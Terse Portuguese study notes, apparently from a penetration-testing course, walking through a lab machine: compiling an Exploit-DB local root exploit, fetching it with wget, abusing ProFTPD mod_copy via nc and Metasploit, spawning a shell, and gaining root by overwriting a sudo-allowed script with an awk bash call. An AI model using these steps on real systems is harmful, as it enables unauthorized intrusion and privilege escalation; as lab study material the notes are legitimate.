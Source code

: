 			*Manualmente
			locate linux/local/37292.c
			# gcc -o [arquivo saida]  37292.c    (compilar o arquivo qe está em C )
			
			meterpreter: upload [arquivo saida] /tmp
					OU
			meterpreter: shell
			cd /tmp
			wget 192.168.0.1/[arquivo saida]  ↔ baixar o arquivo de um server local
			
			
			
#Dia 4 			10/9/2020

	*Varredra da máquina
	
	*ftp://ip_maquina
	
	*nc ip_maquina 21
		site cpfr /home/patrick/version_control

		site cpto /home/ftp/version_control

			descobrir o diretorio path dos dados do server
				-> cat version_control
					/var/www/tryingharderisjoy
		*msfconsole
			use unix/ftp/proftpd_modcopy_exec
					ir para uma shell interativa -> python -c 'import pty;pty.spawn("/bin/sh")'		
			dados em /var/www/tryingharderisjoy/ossec
				cat patricksecretsofjoy
			su patrick
			sudo -l
				/home/patrick/script/test
		*criando script
			echo "awk 'BEGIN {system(\"/bin/bash\")}'" > test

			*entrar no ftp
				ftp ip_maquina
					anonymous
						put arquivo -> upload do arquivo
							put test
		*nc para mover o arquivo
			site cpfr /home/ftp/test
			
			site cpto /home/patrick/script/test

		*executar 
			sudo /home/patrick/script/test			
			



#Dia 5 			11/9/2020

	*Scan básico
		-sV -Pn  ip_alvo
		